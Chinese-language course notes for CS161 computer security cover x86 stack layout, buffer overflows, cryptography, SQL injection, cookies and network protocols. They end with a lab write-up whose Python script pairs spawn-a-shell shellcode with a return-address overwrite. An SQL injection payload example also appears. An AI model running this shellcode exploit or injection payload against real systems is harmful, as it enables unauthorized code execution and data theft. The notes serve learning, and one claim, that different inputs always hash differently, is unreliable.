



# CS161 computer security

使用版本是 summer 2021

## x86 assemble

* 1 *nibble* = 4 bits
* 1 *byte* = 8 bits
* 1 *word* = 32 bits (on 32-bit architecture

一个word的大小对应着该架构中指针位数的大小

**the memory layout of x86**

​​

x86是小端

**register**

寄存器在x86中也是一个对应一个word，其中有一些特殊的寄存器

* eip 也就是pc
* ebp 栈顶指针，也就是fp
* esp  栈底指针，也就是sp

### stack push and pop

**when we want to push a value into stack**

1. esp下移
2. 在这块区间里存储我们的数据

pop指令就是做相反的操作，并将数据拷贝到指定的寄存器上

在x86中我们有push和pop指令实现了上述的操作

### instruction

在本课程的x86采用AT&T的标准，一般目标寄存器放在指令的最后

​`addl $0x8, %ebx`​ 上述指令的含义是ebx寄存器的内容自加 8

* 寄存器的调用需要加上%
* 常数的使用要加上 $
* 内存的引用的做法是 常数(地址) 例如`12(%esp)`​ 指esp地址后12个bytes的值

### function calls

在发生函数调用的时候，栈空间会分配相应的空间（也就是esp下移）给临时变量和函数的其他信息（参数和eip，edp）；在函数调用返回的时候，栈空间分配的空间会被释放

在发生函数调用的时候，以下寄存器需要更新

* eip 同pc，需要指向新的指令
* edp and esp 这两个寄存器指向栈空间的顶部和底部，它们将会从caller的栈空间转换成callee的栈空间

和riscv不同的是，risc中有专门的寄存器处理函数的参数，而x86会把参数直接存储在栈中

x86的函数调用一共有 11 个步骤

```x86asm
main:
    # Step 1. Push arguments on the stack in reverse order
    push $2
    push $1

    # Steps 2-3. Save old eip (rip) on the stack and change eip
    call foo

    # Execution changes to foo now. After returning from foo:

    # Step 11: Remove arguments from stack
    add $8, %esp

foo:
    # Step 4. Push old ebp (sfp) on the stack
    push %ebp

    # Step 5. Move ebp down to esp
    mov %esp, %ebp

    # Step 6. Move esp down
    sub $16, %esp

    # Step 7. Execute the function (omitted here)

    # Step 8. Move esp
    mov %ebp, %esp

    # Step 9. Restore old ebp (sfp)
    pop %ebp

    # Step 10. Restore old eip (rip)
    pop %eip

```

step9-10 有时也被简写为`leave ret`​

​​

‍

## memory safety

### buffer overflow

缓冲溢出是一种常见的错误，在c等语言中尤为常见，是指程序员未能进行足够的边界检查，从而触发超出内存区域的越界内存访问

首先，C不存在对于数组边界的严格检查

```c
char buf[8];
int authenticated = 0;
void vulnerable() {
    gets(buf);
}
```

例如上述程序，c做gets的时候，并不会检查buf的边界，而是会把多余的数据继续写到后面的内存区

C也不存在对于指针访问的严格检查

```c
int (*fnptr)();
```

对于这样一个函数指针变量，C允许各种覆写，使得攻击者可以将程序跳转到任意他们想要的地方，这种行为被称为malicious code injection attack恶意代码注入攻击

**stack smash**

上述的溢出问题主要出现在溢出buf后面跟随着关键数据或者函数指针，在实际中并不常见

而根据x86的堆栈存储形式进行攻击则更为有效

```c
void vulnerable() {
    char buf[8];
    gets(buf);
}
```

对于上述代码

​​

我们的输入足够长时，可以覆盖rip（老的eip），sfp，当我们返回的时候就会返回到新的rip指向的地方

tips，我们的栈空间是向下增长的，但是写入依旧是向上写的

上述模型是一个理论情形，实际的程序中，buf和sfp，rip之间一般会有一些padding空间

对于上述代码，写入`AAAAAAAAAAAA\xef\xbe\xad\xde`​ 就可以使得函数返回时跳转到`0xDEADEEF`​ 该输入与系统的大小端有关

**shellcode**

很多时候注入攻击的结果是生产一个交互式的shell，让攻击者执行各种操作

​`[shellcode] + [4 bytes of garbage] + [address of buf]`​

shellcode就放在buf内部，然后按照上述方法覆盖rip，我们一般会把shellcode放在rip的上面，所以会把rip覆盖为 address(rip) + 4

### integer conversion vulnerabilities

C编译器不会警告signed int 和 unsigned int之间的转换，并且在整数的溢出情形下也不会给出相应的信息

```javascript
void vulnerable() {
    size_t len;
    char *buf;

    len = read_int_from_network();
    buf = malloc(len+5);
    read(fd, buf, len);
    ...
}
```

‍

### Mitigating Memory-Safety Vulnerabilities

最直接且有效的方法就是直接使用内存安全的语言，例如Java, Python, Go, Rust, Swift

但当我们不得不使用那些非内存安全的语言时，也已经有了很多机制来防止内存攻击

**linux对抗栈溢出机制**

stack canaries，是一种对抗栈溢出攻击的技术，在rip的地址的更低处放置一个随机数，因为利用buf覆盖rip势必要覆盖其更低位置的部分，在函数返回时检查该随机数是否被修改，从而检测出栈攻击

## Cryptography

### basic concepts

我们在本次的密码学学习中会反复使用一个例子，Alice and Bob 需要通信，Eve想要窃听通信，Mallory需要篡改通信内容

**keys**

密钥是现代密码学的基础部分，现代计算机系统中常有两个密钥模型，不对称密钥模型（asymmetric key model）和对称密钥模型（symmetric key model）

一个密码系统的性质/目标

* confidentiality 机密性，表现为第三者无法读取我们传递的信息
* integrity 完整性，表现为第三者无法在不被察觉的情况下修改我们要传递的信息
* authenticity 真实性/认证性 可以确定是由某人发出的信息

**symmetric key model 和 asymmetric key model 的三种性质证明**

**kerckhoff's principle**

* 密钥应当是密码系统中唯一需要保密的东西
* 当密钥被泄露时，生成一个新的密钥应当是一个简单的过程

### symmetric key model

对称模型首先要求双方能够交换密钥，否则双方不会凭空产生一对相同的密钥

对于confidentiality 有一些形式上的定义

**IND-CPA secure**

在允许Eve明文攻击的情形下，发给Alice两份制定的信息，经过Alice加密之后，Eve通过观测原文本和加密后文本，猜准匹配原文本和加密文本的概率不超过50%，则说明这个加密方式是IND-CPA secure的

但是对于IND-CPA 的明文攻击是有一定的限制的

* 两份信息的长度需要相同，换句话说，我们允许密文泄露明文的长度
* 该加密请求是实际的而不是理论上的，一般限制在O(N^k) k is constant
* Eve 获取的猜测优势应当是存在实际含义的，不能说我比50%多了2^亿次方分之一

**one time pad**

Alice and Bob共享n-bit的密钥，他们将这个n-bit的密钥每一位随机设置（50%为1,50%为0）

此时Alice想要发送一个n-bit的message（我们记为M），将M和密钥做位异或，就完成了加密

只要Bob拥有密钥，很容易就能把密文还原回来，再做一个异或即可

​​

tip在于，在存在明文攻击的情况下，每个密钥不可多次使用于不同文本

**block ciphers**

分组的密钥，是可以重复使用的共享密钥，把一个定长的n-bit输入转换成一个定长的n-bit输出

一个block ciphers应当有2^k 中加密方式，用一个k-bit的输入来确定加密方式

对于相同的输入和密钥，必须给出相同输出，因此其本身不是IND-CPA的

block ciphers 是展现为一组函数的性质

### Cryptographic hashes

cryptographic hash function是一种函数，用来给文本生成一个特殊的值，这个值相当于该文本的指纹，不论以任何形式细微地修改文本，都会导致生成不同的hash值

散列函数一般有以下特征

* 相同的输入有相同的输出，不同的输入必然有不同的输出
* 常见的哈希函数的输出是固定长度的，例如git里面使用的SHA256
* preimage resistant 容易正向计算hash值，但难以从hash值推断输入
* collision resistant 使用者无法找到任意两个x1, x2，使得它们有相同的hash值

简而言之，攻击者无法在不修改hash值的情况下修改信息本身

hash function也为通信双方校验两个文本是否一致提供了简单的方法，比如我们需要验证安装的软件是否完整，可以计算其hash值与官方发布的hash值是否一致

**hash 算法**

现阶段，SHA2，SHA3是常见的hash算法，并且是目前无法被破解的，根据输出的bite数，被称为SHA3-256，SHA-384等等

**lowest hash schema**

当数量最够大的时候，最低数量的hash值是会被cover的

### Message authentication code

MAC 消息验证码，是在对称加密系统中维护信息完整性和认证性的功能

其接收固定长度的密钥和任意长度的明文，生成一个固定长度的校验码，其最重要的性质在于任意对于明文的改动都会导致校验码的变化

同时一个安全的MAC，不能让人针对一个未知的文本产生一个有效的MAC值

MAC是被用于已知明文攻击的

例如，即使Eve观察了众多组密文+MAC的组合，她也无法创造出一组新的有效的文本+MAC组合

## Web security

### SQL injection

很多种安全攻击发生在于对于输入的检查不严格，导致特殊的输入会发生设计者意料之外的事。在当今互联网上web应用多数是依赖于数据库，因此多数情况下是SQL injection攻击

现代web应用有一些特征

* 用SQL数据库存储信息
* 用HTTP请求和数据库交互

举个例子，例如有一个web应用

```sql
对于这样的http请求 http://www.berkeley.edu/evals?course=cs61a
产生这样的查询sql SELECT rating FROM evals WHERE course = 'cs61a'
```

对此我们使用这样的输入`garbage'; SELECT password FROM passwords WHERE username = 'admin`​

就可以执行这样的sql语句

```sql
SELECT rating FROM evals WHERE course = 'garbage'; SELECT * FROM passwords WHERE username = 'admin'
```

当然上述情况是比较理想的，没有任何防御的情形，正常情况下我们会把SQL语句参数化来防止SQL injection

SQL参数化是指先对SQL语句进行查询编译和解释，在插入用户输入的参数，在此种情况下，用户输入绝不会被作为SQL语句执行，而仅仅是参数的一部分

### Introduction to the Web

网络上的所有资源（网络包，image，PDF等等），都被URL所定位。URL是指 Uniform Rescource Locator。旨在准确描述在Internet上查找信息的位置

```
http://www.example.com/index.html
```

一个URL可以被分为三个基本部分

* **protocol 协议**也就是上述例子里的http，告诉浏览器如何检索资源，一般就是http和https（http的TLS加密版本）还有ssh和ftp等
* **location/domain** 在上述例子中就是`www.example.com`​告诉我们去找哪个Web服务器，对于location我们还可以制定（用@）username和（用：）port
* **path** 在上述例子中就是`index.html`​，Web服务器通过这部分来确定哪些资源（比如页面）返回给你，就是想象我们在访问服务器的文件系统

在path部分，后面可以加一个‘?’然后后面加上一组可选的参数，用来给Web服务器发送信息。

在最后，可以加上一个‘#’后面加上一组文本，其不会被发到服务器，用于影响于客户端浏览器上的网页，其基本上就是我们在html中使用的锚点，定位到某个网页中的特定位置，一个比较完整的URL如下

```
http://evanbot@www.cs161.org:161/whoami?k1=v1&k2=v2#anchor
```

**Introduction to http**

http是超文本传输协议，客户端和服务器通信以获取资源发出请求的语言

### Same-Origin Policy

对于浏览器访问的网页进行隔离，我们不会希望一个网页有影响另一个网页的能力。

所谓的origin是指webpage中的protocol+domain name+port(domain name中有没有www有区别)

如果port没有具体的说明，默认是80对于http，443对于https

虽然一般的资源都是由URL定义的，但是存在一些例外的情况

### Cookies and Session Management

Http是一个无状态的协议，也就是每个response和request之间相互之间是独立的。但是我们会希望其存储某种状态，比如登录的状态，网站的深色模式等等，实际上浏览器和服务器通过存储Cookies来支持这些功能。

当我们做出某种设置的时候，服务器给我们发送一个Set-Cookie header，使得本地的机器存储着这个Cookies，之后的一段时间内，浏览器会自动把存储的Cookies附加到请求上发送给服务器，服务器就知道如何正确发送资源了。

**Cookie Attributes**

每一个cookie都是一个name-value pair，就像一个JSON那样。这是cookie本身的核心功能，但是cookie还需要一些属性，来确定它到底是从哪个服务器来的，需要加装在给哪些服务器的请求中。

* Domain and Path 告诉浏览器将cookie发送到哪些URL
* Secure 属性告诉浏览器需要用安全的https发送
* HttpOnly 放置JavaScript访问和修改Cookie
* expires field 告诉浏览器什么时候可以忘掉着Cookie

例如一个Domain为`example.com`​, Path为`/some/path`​的Cookie，会被放置于，`http://foo.example.com/some/path/index.html`​这样的请求中，该请求拆分一下其实是，URL的domain以Cookie的结尾；URL的path以Cookie的开头

* foo.example.com: URL's domain
* example.com: cookie's domain
* index.html: cookie's path
* some/path/index.html: URL's path

**setting domain and path**

通过上述逻辑，我们可以推出如果服务器需要设置cookie的domain，其必须根据自身的URL来设置，而不能任意设置，否则恶意服务器很容易可以让我们本地的机器给正常网站发送设定的cookie。

也就是说我们只能使用URL的domain的全部或者后半部分，但是有个问题是例如`www.baidu.com`​的domain，我们不可以使用`com`​作为Cookies的domain，否则上述保护就毫无意义了，像edu, com, cn等被浏览器记录为top-level domain（顶级域名）是不可以单独作为Cookies的domain

设置path是无限制的

**Session Management**

session token cookie

会话令牌是一种特殊类型cookie，用于维护登录状态，其通过Cookie发送

## Network security

### network intro

**Local Area Network**

互联网的主要目标是将数据从一个地方移动到另一个地方，我们首先需要一些可以让我们跨空间传输信息的东西，比如电线，无线电波等。

接下来我们考虑局域网（LAN 也即local area network），在LAN中，所有的机器都链接到其他所有机器，可以模拟成下图所示

​​

但是如果要把世界上所有机器都相连，显然是不太现实的，因此在LAN和LAN之间，我们使用路由器（router），一个router可以连接两个或者多个LAN，如果我们需要向另一个LAN中的机器发送消息，需要先发送到router，由router发送到LAN

足够多的LAN+router，构建出了wide area network（广域网），构建了互联网的基础

**Internet layering**

上述设计允许我们使用抽象层来构建Internet

* 最底层是物理层，也即跨空间传输信息
* 第二层是链路层，通过第一层来连接LAN中本地机器
* 第三层是network层，由LAN构成

这种抽象层的隔离，使得层与层之间的实现方式互不影响

**Protocols and Headers**

每一层都有自己的一组协议，协议包括了

* 通信的结构
* 机器在通信时的表现，例如发送和接受的流程
* 如何处理错误，比如信息超时

为了支持协议，每个message发送的时候都会携带一些headers，内部一般会有一些metadata，包括发送者和接受者身份，识别号等等，每个消息都会从高层开始加header，会拥有多个headers。

​​

接受者获得消息的时候，就会从最底层来实解码，获取到实际信息

**Addressing: MAC, IP, Ports**

我们使用一系列的信息，来指向一台目标机器

* link layer, 使用48-bit的MAC address， 来唯一确定该LAN里的一台机器，一般会写成六对16进制的数字，例如`ca:fe:f0:0d:be:ef`​，但保留了一组特殊数据`ff:ff:ff:ff:ff:ff`​，意思是向这个MAC里的所有机器都发送信息
* IP layer, 通过32-bit的IP address来定位全球范围的某一台机器（主机或者路由器），例如`128.32.131.10`​，这是属于IPv4的情形，但是随着互联网的迅速发展，已经已经开始转向IPv6了，使用128-bit来定位
* 在更高层的设计中，允许每个机器有多个进程通过网络通信，更高层为每个进程分配了唯一的16位端口，也即port

‍

### ARP

Ethernet 以太网是LAN的一种具体实现，将机器以wires相连，其起初本身是一个很简单的模型，将数据包发送给所有机器，每个机器自动忽略非自身MAC地址的信息，但是这仅在软件上强制执行，很多以太网可以进去混杂模式，在这种模式下其将接受所有数据包，也称为 sniffing packets

这个阶段的协议是ARP，也即address resolution protocol, 将第三层的IP address 转换成第二层的MAC addresses

* Alice 先进行广播 谁的IP地址是 1.1.1.1
* Bob 如果在LAN中，就直接回复自己的MAC地址，如果不在LAN中，就由该IP定义的路由器回复MAC地址
* Alice会用cache 存储IP地址和MAC地址的映射

**ARP spoofing**

因为在第二步没有检查，如果Mallory创建一个虚假回复给Alice，那么Alice会有一个虚假的IP-MAC缓存，要给Bob发送信息的时候就会发送给Mallory

此种攻击是一种race condition，其本身不会影响正确的响应，因此其本身必须比合法响应更快。

针对此种攻击，存在一些方法可以跟踪IP-MAC地址

### WPA

**WiFi**

对于链路层而言，除了以太网以外还有一个实现，就是无线WiFi，虽然实现细节不同，但是行为类似。

### BGP

属于IP层的协议

**Subnet**

IP路由依赖的是子网而不是单个IP，比如`128.32/16`​是一个IPv4 子网，所有地址以`128.32`​为前缀的地址都属于这个子网

但是还存在一些保留的IP地址，有特殊含义

* 如果要发送给同一个本地网络的机器，就先检查IP是否在同一子网，若在就用ARP转换IP地址，发送到该MAC地址
* 如果是发送到非本地网络机器，需要把数据包发给网关，由网关处理该问题

  * 网关会把数据包传输到general Internet, 其有很多AS组成，每个AS都由ASN唯一标记

**BGP**

AS之间的路由由BGP决定，AS向相邻的AS通告其负责的网络，以至于最终形成一张图，传输的信息足够满足在这个图内部通信

### TCP UDP

IP协议不保证数据包的完整性，并且IP唯一标识一台机器，但是并不区分机器上的进程

而传输层引入了端口号 port 来解决多个进程的问题

## project踩坑记录

### project1

初次登录需要

* 用户名 customizer
* 密码 customizer

然后会给出新的登录信息

**remus ans**

```c
#!/usr/bin/env python2

shellcode = "\x6a\x32\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x47\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"

buffercode = "AAAAAAAAAAAAAAAAAAAA"

addresscode = "\x80\xfc\xff\xbf"

print(buffercode + addresscode + shellcode)
```

**In this project, you will need to** **​`chmod`​**​ **any new scripts you create.**

* shellcode 是我们需要它执行的‘恶意’代码
* addresscode 是shellcode的地址 我们用addresscode 替代 rip 使其跳转到 shellcode
* buffercode 是用来覆盖buffer，sfp，以及一些其它的内容，其所需要替代的长度等需要在gdp调试中查看

​​

我们通过查看buf附近的栈，我们可以看到buf被写入了8个A（\x41），同时我们看到它的附近有一个0xb7ffc4d3 的值，对应了main函数中call指令的下一条语句，合理推测这个值就是rip内部的值。所以rip的地址可以推测就是 0xbffffc78 + 4 = 0xbffffc7c

我们的shellcode应当放置在rip地址后面，也就是0xbffffc7c + 4 = 0xbffffc80 ，因此要写入的addresscode 就是 “\x80\xfc\xff\xbf”

从上图我们也可以看出从buf到rip中间需要覆盖的长度，一共需要20个A

更简单的方式是使用info frame指令，查看当前函数的堆栈信息；用x/16wx buf指令查看当前buf的信息，结合起来就可以了
